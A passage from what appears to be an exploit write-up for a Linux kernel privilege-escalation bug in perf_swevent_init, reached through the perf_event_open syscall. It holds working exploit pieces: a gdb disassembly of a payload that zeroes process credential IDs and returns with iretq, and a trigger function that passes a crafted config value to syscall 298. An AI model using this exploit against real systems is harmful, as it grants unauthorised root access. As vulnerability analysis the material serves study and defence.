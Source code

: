 ```c
		*p = !j ? (idt.addr + int_n * 16 + 8) : targets[target][j];
	}
	
```
Below is the assembly of the payload including the trampoline. First the swapgs instruction is executed to prepare for the execution of the kernel data, then the execution jumps to the actual payload. After the payload is finished, swapgs restores value and iretq instruction is used to return to userspace. 

```
(gdb) x/32x 0x83000000-1037
0x82fffbf3:	0xe8f8010f	0x00000005	0x48f8010f	0xffffb8cf
0x82fffc03:	0xf9a3ffff	0xab0004c7	0x48ababab	0xfc24448d

(gdb) x/16i 0x83000000-1037
   0x82fffbf3:	swapgs
   0x82fffbf6:	callq  0x82fffc00
   0x82fffbfb:	swapgs
   0x82fffbfe:	iretq
   0x82fffc00:	mov    $0xffffffff,%eax
   0x82fffc05:	movabs %eax,0xabababab0004c7f9
   0x82fffc0e:	lea    -0x4(%rsp),%rax
   0x82fffc13:	and    $0xffffffffffffe000,%rax
   0x82fffc19:	mov    (%rax),%rax
   0x82fffc1c:	mov    0x458(%rax),%rax
   0x82fffc23:	movl   $0x0,0x4(%rax)
   0x82fffc2a:	movl   $0x0,0x8(%rax)
   0x82fffc31:	movl   $0x0,0xc(%rax)
   0x82fffc38:	retq
```



### Exploitation

In order to exploit the vulnerability the attacker has to force the system to execute the vulnerable function perf\_swevent\_init(). This function is actually invoked by a syscall sys\_perf\_event\_open, which is a syscall number 298. `syscall(298) -> sys\_perf\_event\_open -> perf\_swevent\_init`

Function prototype:

```c
(gdb) ptype sys_perf_event_open
type = long (struct perf_event_attr *, pid_t, int, int, unsigned long)
```

The function takes a perf\_event\_attr structure that we have to prepare. This structure will be used by a vulnerable perf\_swevent\_init(). Therefore, it's crucial to put the `__u64 config` value to the memory address that we want to increment. 

```c
void trigger(uint32_t off) {
	uint64_t buf[10] = { 0x4800000001, off, 0, 0, 0, 0x300 };
	int fd = syscall(298, buf, 0, -1, -1, 0);
	assert( !close(fd) );
}
```
